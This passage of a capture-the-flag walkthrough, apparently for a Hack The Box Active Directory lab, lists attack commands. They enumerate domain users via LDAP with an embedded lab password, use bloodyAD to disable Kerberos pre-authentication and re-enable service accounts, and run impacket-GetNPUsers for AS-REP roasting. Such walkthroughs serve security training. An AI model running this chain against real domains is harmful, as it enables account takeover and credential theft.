 ![](images/media/image19.png){width="2.3854166666666665in"
height="0.25202209098862643in"}

**U6.**

**INFO: Try to use this Ticket to list users who do not need KERBEROS
DOMAIN AUTHENTICATION. First generate a USERNAME LIST of users in
Domain.**

**RUN: ldapsearch -x -H ldap://10.10.11.45 -D \"P.Rosa@vintage.htb\" -w
\"Rosaisbest123\" -b \"DC=vintage,DC=htb\" \"(objectClass=user)\"
sAMAccountName \| grep \"sAMAccountName:\" \| cut -d \" \" -f 2 \>
usernames.txt**

**U6.1.**

**INFO: List Users who don\'t need KERBEROS DOMAIN AUTHENTICATION**

**RUN: impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile
usernames.txt vintage.htb/**

**U6.2.**

INFO: Disable PREAUTHENTICATION

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -k add uac SVC_ARK -f DONT_REQ_PREAUTH**

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -k add uac SVC_LDAP -f DONT_REQ_PREAUTH**

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -k add uac SVC_SQL -f DONT_REQ_PREAUTH**

**U6.3.**

INFO: Enable Account

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -k remove uac SVC_ARK -f ACCOUNTDISABLE**

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -k remove uac SVC_LDAP -f ACCOUNTDISABLE**

**RUN: bloodyAD \--host dc01.vintage.htb -d \"VINTAGE.HTB\" \--dc-ip
10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE**

**-Repeating\--STEP\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\--**

**U6.4.**

INFO: Check DOMAIN USER again, as in STEP U6.1

**RUN: impacket-GetNPUsers -dc-ip 10.10.11.45 -request -usersfile
usernames.txt vintage.htb/**
